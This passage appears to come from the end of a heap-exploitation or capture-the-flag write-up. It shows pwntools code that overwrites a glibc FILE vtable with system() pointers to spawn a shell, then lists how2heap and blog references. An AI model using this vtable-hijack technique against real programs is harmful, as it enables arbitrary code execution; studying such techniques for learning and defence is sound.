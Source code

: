 ```python
payload += p64(system) # _IO_xsputn_t
payload += p64(system) # _IO_xsgetn_t
payload += p64(system) # _IO_seekoff_t
payload += p64(system) # _IO_seekpos_t
payload += p64(system) # _IO_setbuf_t
payload += p64(system) # _IO_sync_t
payload += p64(system) # _IO_doallocate_t
payload += p64(system) # _IO_read_t
payload += p64(system) # _IO_write_t
payload += p64(system) # _IO_seek_t
payload += p64(system) # _IO_close_t
payload += p64(system) # _IO_stat_t
payload += p64(system) # _IO_showmanyc_t
payload += p64(system) # _IO_imbue_t
edit(bins[1], payload)

_exit()

r.interactive()
```

Referensi:

-  [https://github.com/shellphish/how2heap](https://github.com/shellphish/how2heap)
-  [https://outflux.net/blog/archives/2011/12/22/abusing-the-file-structure/](https://outflux.net/blog/archives/2011/12/22/abusing-the-file-structure/)
-  [https://www.w0lfzhang.com/2016/11/19/File-Stream-Pointer-Overflow/](https://www.w0lfzhang.com/2016/11/19/File-Stream-Pointer-Overflow/)
